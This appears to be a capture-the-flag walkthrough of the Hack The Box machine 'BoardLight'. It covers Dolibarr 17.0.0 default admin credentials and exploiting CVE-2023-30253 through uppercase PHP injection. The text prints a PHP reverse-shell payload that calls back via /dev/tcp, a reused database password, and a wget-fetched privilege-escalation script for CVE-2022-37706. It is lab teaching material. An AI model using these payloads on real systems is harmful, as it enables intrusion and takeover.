

### Task 1 

How many TCP ports are listening on BoardLight?

By running ``sudo nmap -sS <target_ip>`` we scan for all TCP ports on the target machine.


### Task 2

What is the domain name used by the box?

Navigating to the web page by typing the IP address on a browser, we see at the end of the page that the contact email is ``info@board.htb``. At the end of the page, we also see the copyright message "2020 All Rights Reserved By Board.htb" using the same  domain. Those are strong indications of the domain used by the box.

### Task 3

What is the name of the application running on a virtual host of board.htb?

For answering this task, we can use the ``gobuster`` tool to brute-force subdomains via virtual host fuzzing. After adding the target IP address - domain pair on the /etc/hosts file, we run ``gobuster vhost -u http://board.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt``. 


We find the ``crm.board.htb`` domain and we add this with the target IP address to the /etc/hosts file as well. After, we navigate to the domain name on the web browser and find the application.



### Task 4

What version of Dolibarr is running on BoardLight?

On the top of the web page, the version for the application shows to be 17.0.0.

### Task 5

What is the default password for the admin user on Dolibarr?

Since we are presented with a login page we can try the password ``admin`` for the user ``admin`` which works successfully getting as to the admin's page.

### Task 6

What is the 2023 CVE ID for an authenticated vulnerability that can lead to remote code execution in this version of Dolibarr?

Searching for the version of Dolibarr on the [NIST vulnerability database](https://nvd.nist.gov/vuln/detail/CVE-2023-30253), we find the ID to be ``CVE-2023-30253``.

<!--truncate--> 

### Task 7

What user is the Dolibarr application running as on BoardLight?

We first navigate to the "Websites" tab on the admin page and we add a Website. On the website we add a webpage by using an empty page as an example. 


After creating the empty page, we edit the HTML source by adding php code, changint the format to uppercase to bypass the filtering.


This results to succesfully executing the inserted php code. Next, we set up a listener ``nc -lnvp 4444`` and add a reverse shell code on the HTML source such ``<?PHP exec("/bin/bash -c 'bash -i > /dev/tcp/<host_ip>/4444 0>&1'");?>``. This gives us a connection.


### Task 8 

What is the full path of the file that contains the Dolibarr database connection information?

Searching online about Dolibarr configuration files we find that it is usually under ``/htdocs/conf/conf.php``. Indeed, navigating to ``/var/www/html/crm.board.htb/htdocs/conf`` and opening the ``conf.php`` file we can see the database configuration.


### Task 9

Sumbit the flag located in the larissa user's home directory.

Navigating to the ``/home`` directory we see that as the user we currently are we cannot have access to the directory larissa.


What we will now do, is using the database credentials we previously found in the configuration file to switch to the larissa user. We run:

```
su larissa
serverfun2$2023!!
```

And we actually managed to gain access.


We go on by navigating to larisa's home directory and get the user flag by using ``cat user.txt``. 

### Task 10 

What is the name of the desktop environment installed on Boardlight?


To find the desktop environment we can run ``ls /usr/share/xsessions`` since this directory contains the .desktop files that define the graphical session for display managers.

### Task 11 

What version of Enlightenment is installed on BoardLight?

To see the version, we can open the file we found in the previous task.

### Task 12

What is the 2022 CVE ID for a vulnerability in Enlightenment versions before 0.25.4 that allows for privilege escalation?

After searching fot the vulnerability on the CVE database, we find the CVE ID to be [CVE-2022-37706](https://www.cve.org/CVERecord?id=CVE-2022-37706).

### Task 13

Submit the flag located in the root user's home directory.

After finding a public exploit, we open a web server on the host and on the directory that exploit file is saved with ``pyhthon3 -m http.server 8080``. Then on the target we use ``wget http://<host_ip>:8080/exploit.sh`` to get the file. After getting the file we run ``chmod +x exploit.sh`` to make it executable. Running it, we gain root privileges.


Navigating to the root directory we get the root flag by ``cat root.txt``.